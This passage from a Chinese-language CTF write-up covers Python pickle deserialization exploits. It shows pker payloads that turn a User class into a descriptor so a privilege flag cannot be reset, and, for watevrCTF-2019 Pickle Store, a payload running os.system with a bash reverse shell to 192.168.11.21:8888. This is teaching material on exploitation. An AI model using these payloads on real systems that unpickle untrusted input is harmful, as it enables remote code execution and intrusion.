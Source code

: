 ```
        print('Login as ' + user.name + ' - ' + user.group)
        user.privileged = False
        user.flag = flag
        self.user = user

    def run(self):
        while True:
            req = input('$ ')
            func = self.cmds.get(req, None)
            if func is None:
                print('pysh: ' + req + ': command not found')
            else:
                func()

    ...

    def cmd_flag(self):
        if not self.user.privileged:
            print('flag: Permission denied')
        else:
            print(bytes(a ^ b for a, b in zip(self.user.flag, self.key)))


if __name__ == '__main__':
    pysh = Pysh()
    pysh.run()
```

程序先进行一次pickle反序列化，`self.user.privileged`被设置为`False`，然后进入命令执行循环流程，而且提供`cmd_flag`函数，如果`self.user.privileged`为`True`，就会返回flag。
当类实现了`__get__`、`__set__`和`__delete__`任一方法时，该类被称为“描述器”类，该类的实例化为描述器。对于一个某属性为描述器的类来说，其实例化的对象在查找该属性或设置属性时将不再通过`__dict__`，而是调用该属性描述器的`__get__`、`__set__`或`__delete__`方法。需要注意的是，一个类必须在声明时就设置属性为描述器，使之成为类属性，而不是对象属性，此时描述器才能起作用。
所以，如果我们设置`User`类的`__set__`函数，它就成为了描述器；再将它设置为`User`类本身的`privileged`属性时，该属性在赋值时就会调用`__set__`函数而不会被赋值，从而绕过赋值获得flag。
pker代码为：

```
User=GLOBAL('structs','User')
User.__set__=GLOBAL('structs','User') # 使User成为描述器类
des=User('des','des') # 描述器
User.privileged=des # 注意此处必须设置描述器为类的属性，而不是实例的属性
user=User('hachp1','hachp1') # 实例化一个User对象

return user
```

#### watevrCTF-2019: Pickle Store

解析思路见前文手写opcode的CTF实战部分，pker代码为：

```
system=GLOBAL('os', 'system')
system('bash -c "bash -i >& /dev/tcp/192.168.11.21/8888 0>&1"')
return
```
